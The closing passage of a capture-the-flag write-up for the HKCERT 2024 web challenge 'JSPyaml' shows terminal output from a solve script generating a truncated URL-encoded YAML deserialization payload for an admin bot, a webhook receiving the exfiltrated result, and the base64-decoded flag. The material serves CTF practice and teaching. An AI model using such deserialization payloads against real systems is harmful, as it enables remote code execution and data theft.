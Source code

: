 Let's go! It worked on our local environment! Let's get the real flag on the remote instance.

Oh also, to automate the above steps, I wrote the following Python script to generate the final payload:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|22:31:50(HKT)]
└> python3 solve.py
[*] Send the following payload to the bot:
http://localhost:3000/report#%21%21python%2[...]
```

Remote instance's POST request to our webhook site:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117224109.png)

Base64 decoded:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|22:39:21(HKT)]
└> echo -n 'IyEvYmluL3NoCmVjaG8gaGtjZXJ0MjR7T3dhc3BfMHdhc21fbWExd2FyZV9wYWx3YXJlfQ==' | base64 -d
#!/bin/sh
echo hkcert24{Owasp_0wasm_ma1ware_palware}
```

- **Flag: `hkcert24{Owasp_0wasm_ma1ware_palware}`**

## Conclusion

What we've learned:

1. Client-side YAML deserialization to server-side YAML deserialization via Pyodide